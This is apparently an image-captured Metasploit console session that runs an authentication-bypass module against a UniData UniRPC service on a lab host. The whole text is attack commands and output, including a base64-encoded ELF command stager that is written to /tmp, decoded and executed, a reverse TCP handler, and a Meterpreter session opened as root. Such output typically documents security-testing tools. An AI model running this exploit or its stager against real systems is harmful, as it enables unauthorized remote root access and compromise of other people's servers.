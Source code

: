 ```
LHOST => ens160

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / root:0:1000
[*] 10.0.0.198:31438 - Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGgEAAAAAAAC8AQAAAAAAAAAQAAAAAAAAajlYDwVIhcB0CEgx/2o8WA8FBHAPBWo5WA8FSIXAdeox/2oJWJm2EEiJ1k0xyWoiQVpqB1oPBUiFwHhRagpBWVBqKViZagJfagFeDwVIhcB4O0iXSLkCABFcCgAA41FIieZqEFpqKlgPBVlIhcB5JUn/yXQYV2ojWGoAagVIiedIMfYPBVlZX0iFwHnHajxYagFfDwVean5aDwVIhcB47f/m>>'/tmp/AsOOd.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/eFHfW' < '/tmp/AsOOd.b64' ; chmod +x '/tmp/eFHfW' ; '/tmp/eFHfW' ; rm -f '/tmp/eFHfW' ; rm -f '/tmp/AsOOd.b64'"]
[*] 10.0.0.198:31438 - Sending OsCommand request
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.0.0.198
[*] 10.0.0.198:31438 - Command Stager progress - 100.00% done (863/863 bytes)
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.198:54564) at 2023-04-11 09:41:57 -0700

meterpreter > getuid
Server username: root
```
